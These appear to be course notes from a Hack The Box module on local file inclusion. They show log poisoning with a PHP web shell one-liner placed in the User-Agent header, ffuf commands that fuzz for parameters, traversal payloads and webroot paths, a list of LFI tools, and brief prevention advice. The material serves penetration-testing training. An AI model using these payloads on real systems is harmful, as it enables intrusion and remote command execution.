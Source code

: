 We can use Burp Suite to modify User-Agent header to put <?php system($_GET["cmd"]); ?> in the logs and then see the response in the access.log when we put &cmd=.. in the url with a normal User-Agent.

## Automated Scanning :

We can fuzz the page for common `GET` parameters, as follows:

```shell
NolanCarougeHTB@htb[/htb]$ ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
```

Once we identify an exposed parameter that isn't linked to any forms we tested, we can perform all of the LFI tests discussed in this module.

```shell
NolanCarougeHTB@htb[/htb]$ ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
```

We may need to know the full server webroot path to complete our exploitation in some cases.

```shell
NolanCarougeHTB@htb[/htb]$ ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```

We may also use the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist, as it contains many of the server logs and configuration paths we may be interested in.

```shell
NolanCarougeHTB@htb[/htb]$ ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287
```

Finally, we can utilize a number of LFI tools to automate much of the process we have been learning, which may save time in some cases, but may also miss many vulnerabilities and files we may otherwise identify through manual testing. The most common LFI tools are [LFISuite](https://github.com/D35m0nd142/LFISuite), [LFiFreak](https://github.com/OsandaMalith/LFiFreak), and [liffy](https://github.com/mzfr/liffy). We can also search GitHub for various other LFI tools and scripts, but in general, most tools perform the same tasks, with varying levels of success and accuracy.

## File Inclusion Prevention : 

The best way to prevent directory traversal is to use your programming language's (or framework's) built-in tool to pull only the filename. For example, PHP has `basename()`, which will read the path and only return the filename portion.

Furthermore, we can sanitize the user input to recursively remove any attempts of traversing directories, as follows:

```php
while(substr_count($input, '../', 0)) {
    $input = str_replace('../', '', $input);
};
```

